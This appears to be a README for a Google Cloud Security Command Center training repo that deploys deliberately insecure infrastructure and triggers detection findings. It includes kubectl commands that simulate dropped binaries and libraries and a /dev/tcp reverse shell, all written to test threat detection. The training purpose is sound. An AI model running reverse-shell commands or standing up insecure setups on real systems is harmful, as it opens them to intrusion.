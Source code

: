 # Secure Command Center Training

## Purpose

This repository aims to learn Security Command Center by detecting an insecure infrastructure findings in a development environment.

## Prerequisites

To run the commands described in this document, you need to have the following
installed:

- The [Google Cloud SDK](https://cloud.google.com/sdk/install) version 319.0.0 or later
- [Terraform](https://www.terraform.io/downloads.html) version 0.13.6.
- An existing project and GCS Bucket to store Terraform state

**Note:** Make sure that you use the same version of Terraform throughout this
series. Otherwise, you might experience Terraform state snapshot lock errors.

## Update variables

1. Change to deployment directory
   ```
   cd envs/development
   ```
1. Update `backend.tf` with an existing GCS bucket to store Terraform state.
   ```
   bucket = "UPDATE_ME"
   ```
1. Rename `terraform.example.tfvars` to `terraform.tfvars` and update the file with values from your environment:
   ```
   mv terraform.example.tfvars terraform.tfvars
   ```
1. Update required  variables
   
## Deploy Insecure Infrastructure

### Deploy from a desktop

1. Run `terraform init`
1. Run `terraform plan` and review the output.
1. Run `terraform apply`

## Generate Threat Findings

While several findings will automatically trigger during the deployment, the following instructions can be leveraged to trigger Container Threat Detection and Data exfiltration findings.

Set variables 
```
export PROJECT_ID=YOUR_PROJECT_ID
export GKE_CLUSTER=YOUR_GKE_CLUSTER_NAME
```
Download Cluster credentials
```
gcloud container clusters get-credentials $GKE_CLUSTER \
 --zone us-central1 \
 --project $PROJECT_ID
```
Add a binary to a running container
```
tag="dropped-binary-$(date +%Y-%m-%d-%H-%M-%S)"
kubectl run --restart=Never --rm=true --wait=true -i \
--image marketplace.gcr.io/google/ubuntu1804:latest \
"$tag" -- bash -c "cp /bin/ls /tmp/$tag; /tmp/$tag"
```
Add a library to a running container
```
tag="dropped-library-$(date +%Y-%m-%d-%H-%M-%S)"
kubectl run --restart=Never --rm=true --wait=true -i \
--image marketplace.gcr.io/google/ubuntu1804:latest \
"$tag" -- bash -c "cp /lib/x86_64-linux-gnu/libc.so.6 /tmp/$tag; /lib64/ld-linux-x86-64.so.2 /tmp/$tag"
```

Start a reverse shell in running container
```
tag="reverse-shell-$(date +%Y-%m-%d-%H-%M-%S)"
kubectl run --restart=Never --rm=true --wait=true -i \
--image marketplace.gcr.io/google/ubuntu1804:latest \
"$tag" -- bash -c "/bin/echo >& /dev/tcp/8.8.8.8/53 0>&1"
```

### Optional Deploy a Cloud Build environment

1. Deploy Bootstrap environment from [Cloud Foundation Toolkit](https://github.com/terraform-google-modules/terraform-example-foundation/tree/master/0-bootstrap)

1. Add cloud_source_repos to terraform.tfvars file to build gcp-scc-training repo in 0-bootstrap

   ```
   cloud_source_repos = ["gcp-org", "gcp-environments", "gcp-networks", "gcp-projects", "gcp-scc-training"]
   ```
1. Run `terraform apply`

#### Deploy from Cloud Build pipeline

1. Clone the empty gcp-scc-training repo.
   ```
   gcloud source repos clone gcp-scc-training --project=YOUR_CLOUD_BUILD_PROJECT_ID_FROM_0-bootstrap
   ```
1. Navigate into the repo and change to a non-production branch.
   ```
   cd gcp-scc-training
   git checkout -b plan
   ```
1. Copy the development environment directory and cloud build configuration files
   ```
   cp -r ../gcp_scc_training/envs  .
   cp ../gcp_scc_training/build/*  . 
   ```
1. Ensure wrapper script can be executed.
   ```
   chmod 755 ./tf-wrapper.sh
   ```
1. Commit changes.
   ```
   git add .
   git commit -m 'Your message'
   ```
1. Push your plan branch to trigger a plan. For this command, the branch `plan` is not a special one. Any branch which name is different from `development`, `non-production` or `production` will trigger a Terraform plan.
   ```
   git push --set-upstream origin plan
   ```
1. Review the plan output in your Cloud Build project. https://console.cloud.google.com/cloud-build/builds?project=YOUR_CLOUD_BUILD_PROJECT_ID
1. Merge changes to production branch.
   ```
   git checkout -b development
   git push origin development
   ```
1. Review the apply output in your Cloud Build project. https://console.cloud.google.com/cloud-build/builds?project=YOUR_CLOUD_BUILD_PROJECT_ID

1. Destroy the infrastructure with gcloud build command
   ```
   gcloud builds submit . --config=cloudbuild-tf-destroy.yaml --project your_build_project_id --substitutions=BRANCH_NAME="$(git branch 2> /dev/null | sed -e '/^[^*]/d' -e 's/* \(.*\)/\1/')",_ARTIFACT_BUCKET_NAME='Your Artifact GCS Bucket',_STATE_BUCKET_NAME='Your Terraform GCS bucket',_DEFAULT_REGION='us-central1',_GAR_REPOSITORY='prj-tf-runners'
   ```

